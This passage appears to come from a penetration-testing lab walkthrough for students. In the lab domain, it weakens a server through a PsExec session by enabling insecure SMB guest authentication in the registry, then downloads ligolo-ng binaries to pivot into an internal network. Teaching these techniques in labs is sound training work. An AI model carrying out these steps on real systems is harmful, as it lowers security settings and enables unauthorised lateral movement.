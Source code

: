 Within the session of `PsExec` on SRV02, they will proceed to modify the registry key, allowing guest access in SMB2 and SMB3:

Code: powershell

```powershell
reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f
```

```powershell-session
C:\Windows\system32>reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f
The operation completed successfully.
```

Subsequently, they will open `PowerShell` and ping `SRV02` to uncover the IP address assigned to that machine:

Code: powershell

```powershell
ping SRV02
```

```powershell-session
PS C:\Users\helen> ping SRV02

Pinging SRV02.inlanefreight.local [172.20.0.52] with 32 bytes of data:
Reply from 172.20.0.52: bytes=32 time=1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128

Ping statistics for 172.20.0.52:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

Subsequently, students will come to know that `SRV02` is part of an internal network, meaning that they will have to establish dynamic port-forwarding using a [ligolo-ng](https://github.com/nicocha30/ligolo-ng). On their workstations, students will proceed to download the respective versions for Linux and Windows from the [releases](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2):

Code: shell

```shell
wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_windows_amd64.zip; wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_windows_amd64.zip; wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz
```
